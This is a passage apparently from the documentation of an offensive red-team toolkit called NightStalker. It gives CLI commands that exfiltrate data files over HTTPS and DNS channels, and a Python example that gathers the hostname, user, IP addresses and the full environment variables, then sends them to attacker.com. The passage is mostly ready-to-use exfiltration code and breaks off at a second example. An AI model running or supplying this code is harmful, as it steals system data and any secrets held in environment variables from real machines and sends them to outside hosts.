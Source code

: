 ### Method 3: CLI Usage

```bash
# Exfiltrate a file
python -m nightstalker.cli exfil --data sensitive_data.json --channels https dns

# Exfiltrate with custom configuration
python -m nightstalker.cli exfil \
    --data recon_results.json \
    --channels https \
    --target https://your-server.com/collect \
    --encrypt
```

## Real-World Examples

### Example 1: System Reconnaissance + Exfiltration

```python
# Gather and exfiltrate system information
import platform, socket, os, json
from nightstalker.redteam.exfiltration import CovertChannels

def gather_and_exfil():
    # Collect system data
    system_info = {
        'hostname': socket.gethostname(),
        'platform': platform.platform(),
        'user': os.getenv('USERNAME'),
        'ip_addresses': [addr[4][0] for addr in socket.getaddrinfo(socket.gethostname(), None)],
        'environment': dict(os.environ)
    }
    
    # Exfiltrate via multiple channels
    exfil = CovertChannels()
    data_bytes = json.dumps(system_info).encode()
    
    results = exfil.exfiltrate_data(
        data=data_bytes,
        channels=['https', 'dns'],
        channel_configs={
            'https': {'target_url': 'https://attacker.com/collect'},
            'dns': {'dns_server': '8.8.8.8', 'domain': 'attacker.com'}
        }
    )
    
    return results
```

### Example 2: File Exfiltration
